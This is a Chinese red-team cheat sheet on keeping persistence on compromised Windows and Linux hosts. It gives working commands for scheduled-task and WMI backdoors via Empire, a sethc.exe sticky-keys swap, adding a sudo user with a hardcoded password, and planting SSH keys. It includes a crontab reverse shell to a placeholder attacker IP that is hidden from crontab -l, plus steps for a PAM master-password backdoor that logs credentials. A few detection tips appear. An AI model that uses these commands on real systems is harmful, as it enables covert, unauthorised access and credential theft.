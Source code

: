```yaml
---
title: 【红队】权限维持之--系统后门
---
```

# Windows

## Schtasks后门

Schtasks.exe能够在本地或远程计算机上创建，删除，查询，更改，运行和结束计划任务

不带参数运行Schtasks.exe会显示每个已注册任务的状态和下一次运行时间。

**Empire中的模块**

```bash
persistence/userland/schtasks
persistence/elevated/schtasks*		#需要管理员权限
```

一个开源工具： https://github.com/fireeye/SharPersist 

## wmi后门

WMI后门使用了WMI的两个特征：**无文件**和**无进程**（需要管理员权限运行）。

**原理是**：将代码加密存储与WMI中，即无文件；调用PowerShell执行后门程序，执行后进程消失，即无进程。

**在Empire中使用Invoke-WMI模块**

```bash
usemodule powershell/persistence/elevated/wmi	#设置参数run
```

> **检查后门：**使用微软提供的工具`Autoruns`：
>
> https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns 

## DLL劫持后门

DLL劫持原理就是使用 `loadlibrary` 动态加载DLL

DLL劫持工具：[SuperDllHijack](https://github.com/anhkgg/SuperDllHijack)

## 映像劫持shift后门

**替换sethc.exe为cmd.exe**

```
CD C:\windows\system32cacls sethc.exe /t /e /G Administrators:fcacls cmd.exe /t /e /G Administrators:fren sethc.exe aaa.exeren cmd.exe sethc.exe#恢复ren sethc.exe cmd.exeren aaa.exe sethc.exe
```

连按5下Shift弹出cmd窗口

> **检查后门**：连续按5下弹出cmd窗口（当然还有其它放大镜讲述人等）

扩展：[权限维持之打造不一样的映像劫持后门](https://mp.weixin.qq.com/s?__biz=MzU1NjgzOTAyMg==&mid=2247487783&idx=2&sn=cb335f8dca5b6581fc11586731f9497c&chksm=fc3fa826cb48213020f6a7099c77e20ced8dea3ec7168eaafbd61076e5926dfb50504a1440ef&mpshare=1&scene=24&srcid=0803CzkQaDB0wtkjHH15juEz&sharer_sharetime=1596415561771&sharer_shareid=e5c8ca04ed8346aa6eb2c2579c812fb8&key=ebb412db45555e1d108502328e33bc9c942962e3758fffe56ea4b145cd5a40482e5c11095d5f4c0533bb5cda390e6b656c3173ab08b99f70f343d1a6556cead0ff62db0cbe4ebcc9eb2bff17e0f2063e&ascene=14&uin=MTUwNjgwNTkxMA%3D%3D&devicetype=Windows+10+x64&version=62090070&lang=zh_CN&exportkey=A%2FNthEySkLH2rBg28%2FoMtnk%3D&pass_ticket=lppPNqJhx8ZD573ypwsqgQ41%2F%2BJd%2B2avwvIfBnLfOjeNcQkihuzk3CgS%2F36Je%2Bnb)

# Linux

## 增加超级用户账号

> **如果系统不允许`uid=0`的用户（`root`）远程登录，可以添加一个普通用户，并将其加入sudoers**

**增加用户**

```bash
useradd phP        #添加账户
echo qwesys514!Sec|passwd --stdin phP	#设置密码(密码符合要密码强度策略)
```

**修改sudoers赋予sudo权限**

```bash
chmod +w /etc/sudoers    #赋予写入权限
vi /etc/sudoers

# Allow root to run any commands anywhere
root    ALL=(ALL)     ALL
phP		ALL=(ALL)     ALL

#在root下方，添加sudo用户
chmod -w /etc/sudoers    #撤销写入权限
```

还可以修改/etc/passwd文件，把用户uid改为0。

## SSH公钥无密码登录

```bash
ssh-keygen -t rsa    #本机生成rsa公钥

#把id_rsa.pub写入服务端的authorized_keys中
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
echo "id_rsa.pub的内容" > ~/.ssh/authorized_keys

#没有这个文件的话，就自己创建一个
cd ~/
mkdir .ssh
cd .ssh
touch authorized_keys
```

## Crontab定时反弹shell

```bash
(crontab -l;printf "*/1 * * * * exec 9<> /dev/tcp/攻击者IP/8888;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -

#每分钟执行一次，并且crontab -l看不出来
#这种要用crontab -e 进去查看并编辑才能看到
```

## PAM后门

>  **PAM （Pluggable Authentication Modules ）**是由Sun提出的一种认证机制。
>
> 它通过提供一些动态链接库和一套统一的API，将系统提供的服务和该服务的认证方式分开
>
> 使得系统管理员可以灵活地根据需要给不同的服务配置不同的认证方式，而无需更改服务程序
>
> 同时也便于向系统中添加新的认证手段

**步骤：**

1、获取目标系统所使用的PAM版本，下载对应版本的pam版本

2、解压缩，修改pam_unix_auth.c文件，添加万能密码

3、编译安装PAM

4、编译完后的文件在：modules/pam_unix/.libs/pam_unix.so，复制到/lib64/security中进行替换

​		即可使用万能密码登陆，并将用户名密码记录到文件中

**排查PAM后门技巧：**

1、通过Strace跟踪ssh

```bash
ps axu | grep sshd
strace -o aa -ff -p PID
grep open aa* | grep -v -e No -e null -e denied| grep WR
```

2、检查pam_unix.so的修改时间

```bash
stat /lib/security/pam_unix.so      #32位
stat /lib64/security/pam_unix.so    #64位
```

## Rootkit工具包

> rootkit是一种特殊的恶意软件。三要素是：**隐藏、操纵、收集数据**。
>
> 功能是在安装目标上隐藏自身及指定的文件、进程和网络链接等信息
>
> 多见的rootkit一般都是木马、后门和其它恶意程序结合使用
>
> **Rootkit通过加载特殊的驱动，修改系统内核，进而达到隐藏信息的目的**
>
> Rootkit是攻击者用来隐藏自己的踪迹和保留root访问权限的工具

**Rootkit类型**

```bash
固件Rootkit
虚拟化Rootkit
内核级Rootkit
库级Rootkit
应用级Rootkit
```

**Rootkit工具包列表**：https://github.com/d30sa1/RootKits-List-Download  （注意与`Centos`版本适配）

**检测与防护：**

rkhunter：http://rkhunter.sourceforge.net/ 

chkrootkit：http://www.chkrootkit.org/download/ 

定期检查md5，对于找出的 Rootkit，最好的应对方法是擦除并重新安装系统